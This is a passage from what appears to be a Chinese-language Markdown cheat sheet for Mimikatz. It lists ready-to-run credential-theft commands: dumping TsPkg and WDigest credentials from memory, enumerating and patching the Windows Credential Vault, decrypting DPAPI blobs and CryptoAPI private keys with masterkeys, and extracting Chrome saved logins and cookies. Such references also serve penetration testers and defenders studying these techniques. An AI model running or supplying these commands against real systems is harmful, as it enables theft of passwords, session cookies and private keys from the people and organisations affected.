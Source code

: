 ```

列出 TsPkg凭据，这个凭证提供者用于终端服务器认证
```
mimikatz # sekurlsa::tspkg
```

## wdigest
列出了WDigest凭证。据微软称，WDigest.dll是在Windows XP操作系统中引入的。Digest认证协议旨在与超文本传输协议（HTTP）和简单认证安全层（SASL）交换使用
```
mimikatz # sekurlsa::wdigest
```


# Vault模块

Mimikatz的这个模块与Windows Credentials Vault进行交互。DPAPI是获得相同结果的一个更好的替代选项

## cred

枚举vault 里面的凭据

```
mimikatz # vault::cred

mimikatz # vault::cred /patch
```

## list

列出Windows Vault中保存的凭证，如计划任务、RDP、当前用户的Internet Explorer等

```
mimikatz # vault::list
```

# dpapi

## blob
> describes a DPAPI blob and unprotects/decrypts it with API or Masterkey

```
mimikatz # dpapi::blob /in:dpapi_blob.txt /unprotect
```

## cache
显示DPAPI模块的凭证缓存

```
mimikatz # dpapi::cache
```

## capi
解密一个CryptoAPI的私钥文件

```
mimikatz # dpapi::capi /in:"D:\\Users\\Gentil Kiwi\\AppData\\Roaming\\Microsoft\\Crypto\\RSA\\S-1-5-21-494464150-3436831043-1864828003-1001\\79e1ac78150e8bea8ad238e14d63145b_4f8e7ec6-a506-4d31-9d5a-1e4cbed4997b" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b
```

## chrome
从Chrome中转储的证书和cookies
```
mimikatz # dpapi::chrome /in:"C:\Users\m3g9tr0n\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3